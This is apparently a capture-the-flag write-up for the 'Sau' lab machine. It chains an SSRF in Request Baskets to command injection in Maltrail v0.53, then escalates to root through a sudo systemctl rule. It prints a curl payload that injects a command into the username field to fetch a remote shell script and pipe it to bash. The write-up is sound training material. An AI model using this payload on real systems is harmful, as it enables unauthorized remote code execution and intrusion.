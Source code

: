 # Sau

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.22.88       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:15 +08
Nmap scan report for 10.129.22.88
Host is up (0.24s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

Port 80 is being filtered, while port 55555 is open.&#x20;

### Request Baskets SSRF --> Mailtrail RCE

Port 55555 hosted an application that is able to collect and inspect HTTP requests:

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We can create one by clicking on create:

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Tihs acts similar to a webhook, and is able to retrieve requests sent to that unique URL.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

We are able to set the Responses from the website. as well as where the traffic is being forwarded to, just like we can with Webhooks. Setting the Forward URL to our own HTTP server results in requests being sent there from the machine.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Since port 80 was being filtered, we can set it to `http://localhost` and try setting all the options to True. Afterwards, sending GET requests to our bucket would result in HTML being returned:

```
$ curl http://10.129.22.88:55555/test
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
<TRUNCATED>
<div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
```

At the bottom, we can see that port 80 has Mailtrail v0.53 running, which is vulnerable to an unauthenticated RCE exploit.

{% embed url="https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/" %}

To exploit this, we just need to change the forward URL to `http://127.0.0.1/login` and send a POST request via `curl` with a payload like this:

{% code overflow="wrap" %}
```bash
$ curl -X POST --data 'username=;`curl 10.10.14.31/shell.sh|bash`' http://10.129.22.88:55555/test
```
{% endcode %}

We would get a reverse shell as `puma`:

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Systemctl --> Root

The user is able to run a command using `sudo`:

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This is easily exploitable o get a `root` shell:

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Rooted!
